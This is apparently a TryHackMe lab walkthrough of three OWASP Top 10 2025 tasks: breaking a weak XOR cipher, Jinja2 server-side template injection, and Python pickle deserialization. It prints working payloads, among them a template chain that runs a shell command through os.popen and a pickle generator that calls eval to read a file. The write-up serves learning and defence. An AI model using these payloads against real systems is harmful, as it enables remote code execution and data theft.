







# TryHackMe: OWASP Top 10 2025 - Insecure Data Handling

Author: w4nn4d13  
Updated: 15 April 2026  
Room: https://tryhackme.com/room/owasptopten2025three/

## Executive Summary

This walkthrough explores three high-impact vulnerability classes from the OWASP Top 10 2025 theme. Across all tasks, the same core issue appears repeatedly: unsafe handling of untrusted data.

Covered tasks:

- A04 Cryptographic Failures
- A05 Injection (SSTI)
- A08 Software and Data Integrity Failures (Insecure Deserialization)

The room demonstrates how weak cryptography, template evaluation, and insecure object loading can lead to sensitive data exposure and code execution paths.

---

## Task 2: A04 - Cryptographic Failures

### Challenge Overview

The challenge provides encrypted notes protected with a weak XOR mechanism and a short key pattern hint:

- The key starts with `KEY_`
- It includes letters and numbers
- One character must be guessed

### Approach and Reasoning

XOR encryption is weak when:

- The key is short
- The same key is reused
- Output structure gives plaintext clues

By testing candidate suffixes and validating readable outputs, the correct key was identified as:

**KEY1**

### Flag Obtained

**THM{WEAK_CRYPTO_FLAG}**

### Evidence






### Key Takeaway

Homegrown or weak cryptography creates predictable failures. Reused short XOR keys are not secure for sensitive data.

---

## Task 3: A05 - Injection (Server-Side Template Injection)

### Challenge Overview

The web app evaluates user-controlled data in a server-side template context (Jinja2), making template expression injection possible.

Initial verification payload:

```jinja2
{{7*7}}
```

If this evaluates server-side, the template engine is executing user input.

Additional payloads used during validation:

```jinja2
{{{7*7}}}
{{config}}
```

Note: `{{7*7}}` is the working arithmetic check in Jinja2, while `{{config}}` confirms accessible server-side context.

### Practical Evidence Flow

Step 1: Confirm expression evaluation with arithmetic payload.


Step 2: Enumerate template context objects with `{{config}}`.



### Exploit Payload Used

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

### How the Payload Works

- `self` gives template object context
- `__init__.__globals__` exposes global scope
- `__builtins__.__import__('os')` imports OS module
- `popen('cat flag.txt').read()` executes command and reads output

This chain escalates from template expression evaluation to command execution and file disclosure.

### Flag Obtained

**THM{SSTI_FLAG_OBTAINED}**


### Key Takeaway

SSTI can become full remote code execution when unsafe objects are reachable from template context.

---

## Task 4: A08 - Software and Data Integrity Failures (Insecure Deserialization)

### Challenge Overview

This task abuses unsafe Python `pickle` deserialization. The server accepts serialized data and reconstructs objects without strict controls.

Step 1: Confirm endpoint behavior with invalid pickle input.



### Payload Generation

```python
import pickle
import base64

class Malicious:
    def __reduce__(self):
        return (eval, ("open('flag.txt').read()",))

payload = pickle.dumps(Malicious())
encoded = base64.b64encode(payload).decode()
print(encoded)
```

Generated payload example:

```text
gASVMwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwXb3BlbignZmxhZy50eHQnKS5yZWFkKCmUhZRSlC4=
```

### Result

Submitting the Base64 payload causes unsafe deserialization and returns the content of `flag.txt`.

### Flag Obtained

**THM{INSECURE_DESERIALIZATION}**

### Evidence





### Key Takeaway

Never deserialize untrusted data with unsafe mechanisms like raw `pickle`. Use safe formats and strict schema validation.

---

## Final Conclusion

Across all three tasks, the same principle is reinforced:

**Never trust user input when it can be interpreted as code, template logic, or serialized executable objects.**

A secure implementation should include:

- Strong, modern cryptographic design with safe key handling
- Strict server-side input validation and safe template rendering
- Safe serialization formats with allow-list based decoding
- Defense-in-depth controls, monitoring, and secure defaults

---

## Quick Stats

- Tasks completed: 3/3
- Flags captured: 3/3
- Main skills used: crypto analysis, template injection testing, deserialization abuse detection
- Tools used: browser testing, Python scripting, payload encoding/decoding


